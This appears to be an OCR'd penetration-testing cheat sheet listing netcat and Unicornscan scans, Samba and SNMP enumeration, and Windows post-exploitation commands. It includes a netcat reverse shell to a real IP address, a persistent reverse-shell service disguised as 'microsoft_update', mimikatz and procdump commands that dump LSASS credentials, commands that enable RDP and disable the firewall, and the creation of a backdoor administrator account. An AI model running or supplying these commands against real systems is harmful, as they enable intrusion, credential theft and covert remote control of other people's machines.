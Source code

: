 
	NC Scanning
	nc -v -w 1 target -z 1-1000
	for i in {101..102}; do nc -vv -n -w 1 192.168.56.$i 21-25 -z; done


	Unicornscan
	us -H -msf -Iv 192.168.56.101 -p 1-65535
	us -H -mU -Iv 192.168.56.101 -p 1-65535
	-H resolve hostnames during the reporting phase
	-m scan mode (sf - tcp, U - udp)
	-Iv - verbose

	Xprobe2 OS fingerprinting
	xprobe2 -v -p tcp:80:open IP


	Samba Enumeration
	nmblookup -A target
	smbclient //MOUNT/share -I target -N
	rpcclient -U "" target
	enum4linux target


	SNMP Enumeration
	snmpget -v 1 -c public IP
	snmpwalk -v 1 -c public IP
	snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP


	Windows Useful cmds
	net localgroup Users
	net localgroup Administrators
	search dir/s *.doc
	system("start cmd.exe /k $cmd")
	sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
	/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
	mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
	Procdump.exe -accepteula -ma lsass.exe lsass.dmp
	mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
	C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
	C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits


	Enable RDP Access
	reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
	netsh firewall set service remoteadmin enable
	netsh firewall set service remotedesktop enable


	Turn Off Windows Firewall
	netsh firewall set opmode disable


	Add New user in Windows
	net user test 1234 /add
	net localgroup administrators test /add
